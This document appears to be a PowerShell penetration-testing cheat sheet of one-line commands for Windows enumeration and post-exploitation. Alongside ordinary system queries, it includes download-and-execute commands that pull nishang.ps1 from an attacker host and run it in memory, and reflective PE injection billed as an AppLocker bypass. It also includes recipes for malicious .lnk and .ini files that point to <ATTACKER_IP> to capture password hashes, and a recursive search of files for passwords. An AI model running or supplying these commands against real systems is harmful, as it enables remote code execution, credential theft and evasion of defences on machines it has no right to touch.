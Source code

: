 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Locally listening ports (TCP)
`netstat -ano -p tcp`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# get file system access
`$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'`

# Get Process Owners
`Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# get-bytes of a string
`[System.Text.Encoding]::UTF8.GetBytes('hello')`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`

# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`

# Start a job with alternative creds
`Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}`

# Jump to powershell v2
`Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"`

# Get Alternate Data Streams
`$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream}; $ErrorActionPreference = 'Continue'`

# View listening connections (with optional PID translation to Proc names)
`$PROCS = Get-Process; Get-NetTCPConnection -LocalAddress <LOCAL_IP> | Sort-Object LocalPort | Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemoteAddress,RemotePort,State | Format-Table`

# Create Malicious Shortcut (lnk) file to steal hashes
```
$Output_For_Lnk = "$pwd\Microsoft Edge.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@source"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browse the web"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Enable PowerShell Remoting
`Enable-PSRemoting -Force`

# Search for strings in files:
`$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'`

# Create malicious `.ini` file
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\aaa
```

# convert binary to base64 on one line
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes('c:\users\zen\desktop\test\whoami.exe')) > whoami.txt
```

# bring it back to exe
```powershell
[System.IO.File]::WriteAllBytes("c:\users\zen\desktop\test\whoami2.exe", [System.Convert]::FromBase64String( (cat .\whoami.txt) ))
```